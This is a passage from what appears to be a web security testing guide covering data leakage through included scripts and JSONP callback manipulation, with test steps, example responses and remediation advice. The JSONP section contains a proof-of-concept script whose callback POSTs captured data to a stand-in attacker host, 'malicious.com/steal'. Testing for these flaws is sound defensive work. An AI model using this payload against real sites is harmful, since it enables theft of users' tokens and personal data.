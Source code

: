 3. Host the page (e.g., `python3 -m http.server 8000`) and load it.
4. Check for data leakage:
   - Monitor `malicious.com` logs for sensitive data (e.g., tokens).

**Example Secure Response**:
```javascript
// No sensitive data exposed
var data = {};
```
No data stolen.

**Example Vulnerable Response**:
```javascript
// Sensitive data exposed
var user = { token: 'abc123', email: 'user@example.com' };
```
Data sent to `malicious.com`.

**Remediation**:
- Avoid sensitive data in scripts:
  ```javascript
  // Use API calls instead
  fetch('/api/data').then(res => res.json());
  ```
- Add authentication checks:
  ```javascript
  if (!authenticated) return '';
  ```

**Tip**: Save PoC code and stolen data logs in a report.

### 2. Test JSONP Callback Manipulation

**Objective**: Ensure JSONP endpoints do not allow arbitrary callback functions.

**Steps**:
1. Identify JSONP endpoints:
   - Look for URLs with `?callback=` or `?jsonp=` parameters.
2. Test with a malicious callback:
   ```bash
   http "http://example.com/data?callback=alert"
   ```
3. Check response:
   - Verify if the response wraps sensitive data in the callback (e.g., `alert({token:'abc123'})`).
4. Create a PoC:
   ```html
   <script>
     function malicious(data) {
       fetch('http://malicious.com/steal', { method: 'POST', body: JSON.stringify(data) });
     }
   </script>
   <script src="http://example.com/data?callback=malicious"></script>
   ```

**Example Secure Response**:
```http
HTTP/1.1 403 Forbidden
```
Callback rejected or sanitized.
